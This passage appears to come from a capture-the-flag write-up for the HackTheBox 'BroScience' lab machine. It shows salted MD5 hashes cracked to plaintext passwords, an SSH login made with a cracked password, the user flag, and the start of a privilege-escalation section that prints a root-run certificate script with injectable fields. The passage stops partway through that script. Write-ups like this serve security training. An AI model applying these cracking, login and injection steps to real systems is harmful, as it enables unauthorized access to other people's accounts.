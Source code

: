 It looks like we've cracked several!:
```
3b82b44090ee0a14e0f24172788e0bb8:NaCl:123456     
b2fc457a3f98256a392ff634ec615fc9:NaCl:123456789  
8f864e441b88a597a2264551d1bfa831:NaCl:aaaa       
d80031863eb94bb355f5a04f415a315f:NaCl:foobar     
84c6e0688b2ef52ff1aeb922196d4e5a:NaCl:test       
876a42b400bcc73f92243010a0bb8978:NaCl:foo        
6d91921f04e89b1c6760df9b12b7ac1f:NaCl:x          
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
```

We got the password for username bill - `iluvhorsesandgym` - and we can SSH in, meaning we have the user flag!:

```bash
ssh bill@broscience.htb
The authenticity of host 'broscience.htb (10.10.11.195)' can't be established.
ECDSA key fingerprint is SHA256:JGqMGEJRnLW3UdbkJFqzfa85qofae/pCqt15bo+0i0Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'broscience.htb,10.10.11.195' (ECDSA) to the list of known hosts.
bill@broscience.htb's password: 
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

bash-5.1$ cat user.txt 
06128ae10344ecec8c2ae1def2bd67a8
```

## Privilege Escalation

Initially, I tried:

* looking for setuid binaries
* checking the shell environment
* running LinPEAS
* browsing the file system `/opt/renew_cert.sh` was the only thing that stood out as unusual

I finally ran `pspy64 -r /tmp` to monitor `/tmp` , as the above script writes a new SSL certificate here.  Here is the full script:

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
```